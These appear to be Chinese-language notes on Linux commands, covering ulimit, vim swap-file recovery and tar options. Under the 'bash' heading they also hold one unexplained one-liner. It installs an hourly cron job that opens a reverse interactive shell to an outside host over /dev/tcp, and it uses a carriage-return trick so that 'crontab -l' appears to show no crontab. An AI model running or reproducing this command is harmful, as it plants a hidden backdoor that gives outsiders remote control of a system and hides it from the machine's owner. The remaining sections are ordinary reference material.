 ## bash



```bash
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wooyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```

## ulimit

它具有一套参数集，用来为由它生成的 shell 进程及其子进程的资源使用设置限制，针对的是 Per-Process 而非 Per-User 。

ulimit 用于 shell 启动进程所占用的资源，可以用来设置系统的限制，通过 `ulimit -a` 可以查看当前的资源限制，如果通过命令行设置，则只对当前的终端生效。

## vim

[http://vimcdoc.sourceforge.net](http://vimcdoc.sourceforge.net/)

从交换文件恢复:

vim -r filename



## tar

```shell
tar [-j|-z][cv][-f 建立的档名]  filename<==打包与压缩
tar [-j|-z][tv][-f 建立的档名] <=查看档名
tar [-j|-z][xv][-f 建立的档名] <==解压缩
```

参数和选项

```
-c :建立打包(create)档案,可配合-v 来查看过程中被打包的档名
-t :查看打包档案的内容含有哪些档名,重点在查看档名
-x :解打包或解压缩(extract)的功能,可以配合-C 在特定的目录解开。但是,-c,-t,-x不可以同时出现
-j :通过bzip2的支持进行压缩/解压:文件名最好为:*.tar.bz2
-z :通过gzip的支持进行压缩/解压缩:此时档名最好为*.tar.gz
-v :在压缩/解压缩的过程中,将正在处理的文件名显示出来
-f filename : -f后面要立刻接被处理的档名!建议-f单独写一个选项
-C 目录 :这个选项用在解压缩,若要在特定的目录解压缩,可以使用这个选项
-p :保留备份数据的原本权限和属性,常用于备份(-c)重要的配置文件
-P :保留绝对路径,即允许备份数据中包含根目录存在
--exclude=FILE :在压缩的过程中不要将FILE打包
```



### 常用命令

- 压缩 tar -zcv -f filename.tar.gz 目录或文件
- 查询 tar -ztv -f filename.tar.gz
- 解压缩 tar -zxv -f filename -C 欲解压路径
